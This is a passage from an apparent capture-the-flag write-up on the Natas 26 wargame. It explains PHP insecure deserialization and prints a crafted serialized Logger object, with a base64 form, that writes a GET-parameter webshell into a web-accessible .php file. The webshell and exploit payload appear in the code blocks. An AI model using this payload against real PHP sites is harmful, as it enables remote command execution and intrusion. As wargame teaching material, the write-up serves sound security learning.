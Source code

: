 Since we actually can control the &#8216;$logFile&#8217; variable as well as &#8216;$exitMsg&#8217;, we can change the log file into a php file, and make a webshell for executing commands!

An example of serialized data for a request that manipulates both variables:

<pre class="lang:php decode:true">a:1:{
        i:0;
	O:6:"Logger":2:{
		s:15:"\0Logger\0logFile";
		s:31:"img/natas26_ponderngnatas26.php";
		s:15:"\0Logger\0exitMsg";
		s:21:"&lt;pre&gt; &lt;?=`$_GET[1]`?&gt;";
	}
}</pre>

Here the structure I need to explain is the &#8220;O&#8221;, which means the Object type.

> Objects are serialized as:
> 
> <span class="lang:php decode:true crayon-inline ">O:<i>:&#8221;<s>&#8221;:<i>:{<properties>}</span>
> 
> where the first `<i>` is an integer representing the string length of `<s>`, and `<s>` is the fully qualified class name (class name prepended with full namespace). The second `<i>` is an integer representing the number of object properties. `<properties>` are zero or more serialized name value pairs:
> 
> <span class="lang:php decode:true crayon-inline "><name><value></span>
> 
> where `<name>` is a serialized string representing the property name, and `<value>` any value that is serializable.

Our first pair is

<pre class="lang:php decode:true">s:15:"\0Logger\0logFile";
s:31:"img/natas26_randomname.php";</pre>

and second pair is

<pre class="lang:php decode:true ">s:15:"\0Logger\0exitMsg";
s:21:"&lt;pre&gt; &lt;?=`$_GET[1]`?&gt;";</pre>

That will create a php at &#8220;/img/natas26_randomname.php&#8221; with a small webshell that reads our commands from the GET request as &#8220;/?1={cmd}&#8221;.

Taking out the tabs and doing a base64 encoding will result in <span class="lang:php highlight:0 decode:true crayon-inline">YToxOntpOjA7Tzo2OiJMb2dnZXIiOjI6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoyNjoiaW1nL25hdGFzMjZfcmFuZG9tbmFtZS5waHAiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czoyMToiPHByZT4gPD89YCRfR0VUWzFdYD8%2bIjt9fQ%3d%3d</span>

It should be noted that the variable names in our serialized data have null bytes included because they are private variables, and that&#8217;s how they have to be represented. Per [stackoverflow](https://stackoverflow.com/questions/14297926/structure-of-a-serialized-php-string):

> `<name>` is represented as
> 
> <span class="lang:php decode:true crayon-inline ">s:<i>:&#8221;<s>&#8221;;</span>
> 
> where `<i>` is an integer representing the string length of `<s>`. But the values of `<s>` differs per visibility of properties:
> 
> a. With **public** properties `<s>` is the simple name of the property.
> 
> b. With **protected** properties, however, `<s>` is the simple name of the property, prepended with `\0*\0` — an asterix, enclosed in two `NUL` characters (i.e. `chr(0)`).
> 
> c. And with **private** properties, `<s>` is the simple name of the property, prepended with `\0<s>\0` — `<s>`, enclosed in two `NUL` characters, where `<s>` is the fully qualified class name.
